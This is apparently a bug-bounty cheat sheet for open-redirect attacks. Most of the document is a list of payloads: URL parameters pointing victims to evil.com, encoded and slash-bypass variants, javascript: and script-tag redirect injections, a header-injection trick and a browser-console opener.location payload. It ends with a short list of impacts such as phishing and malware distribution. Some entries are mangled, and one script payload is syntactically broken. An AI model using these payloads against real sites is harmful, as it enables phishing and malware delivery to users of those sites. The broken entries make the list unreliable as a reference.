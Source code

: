 # open redirect


1 - payload: {evil.com} 


===>>> example: site.com/.../redirect_uri=evil.com/...

===>>> example: site.com/.../next_url=evil.com/...

===>>> example: site.com/.../current_url=evil.com/...

===>>> example: ===>>> example: site.com/.../returnurl=http://evil.com   <<<===

2 - payload: {///%5Cevil.com/} 


===>>> example: site.com///%5Cevil.com/ 
===>>> http://victim.com/page?redirect=http://evil.com
http://victim.com/page?url=https://evil.com
http://victim.com/page?next=//evil.com
http://victim.com/page?return=%2F%2Fevil.com
http://victim.com/page?redirect=https%3A%2F%2Fevil.com%2F
http://victim.com/page?redirect=///evil.com
http://victim.com/page?redirect=\/\evil.com
http://victim.com/page?redirect=javascript:window.location='http://evil.com'
http://victim.com/page?redirect=%3Cscript%3Ewindow.location='http://evil.com'%3C%2Fscript%3E
http://victim.com/page?redirect=//evil.com%00
http://victim.com/page?redirect=https://evil.com%2F%5C
===>>>
3 - payload:  </script>window.location"http://evil.com"</script>


===>>> example: search box : injection

4 - payload: {bing.com}


===>>> example: ===>>> url ===>>> X-forwarded-host: bing.com

5 - payload: {%E3%80%82}


===>>> example: https://20.44.36.49//google%E3%80%82com , https://20.44.36.49//bing%E3%80%82com , https://20.44.36.49//yahoo%E3%80%82com

6 - payload: { opener.location="https://evil.com"}

===>>> example: email ===>>> inspect ===>>> console: opener.location="https://evil.com"

7 - payload: {forget password}

===>>> example: https://20.44.36.49/.../google.com


==================================================================


## impact:
- an attacker can do phishing with legitimate users
-  they can also chain this with SSRF
-  reputation loss, money loss
-  malware distribution
  
